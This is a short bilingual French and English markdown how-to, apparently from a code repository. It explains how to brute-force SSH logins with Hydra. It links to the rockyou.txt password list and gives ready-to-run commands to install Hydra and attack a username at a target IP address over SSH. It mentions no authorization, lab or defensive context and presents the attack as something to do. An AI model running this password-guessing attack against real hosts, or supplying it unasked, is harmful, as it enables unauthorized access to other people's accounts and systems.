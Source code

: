 # Français

# Force brut

Si le port SSH est ouvert et non sécurisé, on peut utilisé hydrack

> **hydra** : Hydra est un cracker de connexion parallélisé qui prend en charge de nombreux protocoles d'attaque. Il est très rapide et flexible.

Installer ce fichier:
https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwj3tdONj4v-AhU-V6QEHTy5CaEQFnoECBgQAQ&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd

Ce fichier ce nomme rockyou.txt, il est assée volumineux car ce qu'il y à dedans représente plein de mot de passe couramment utiliser

## commande:

```shell
sudo apt update
sudo apt install hydra
sudo hydra -l nom_utilisateur -P rockyou.txt ssh://addresse_ip
```

# English

# Raw force

If the SSH port is open and not secured, you can use hydrack

> **hydra**: Hydra is a parallelized connection cracker that supports many attack protocols. It is very fast and flexible.

Install this file:
https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwj3tdONj4v-AhU-V6QEHTy5CaEQFnoECBgQAQ&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd

This file is called rockyou.txt, it's quite big because what's in it is a lot of commonly used passwords

## command:

```shell
sudo apt update
sudo apt install hydra
sudo hydra -l username -P rockyou.txt ssh://ipaddress
```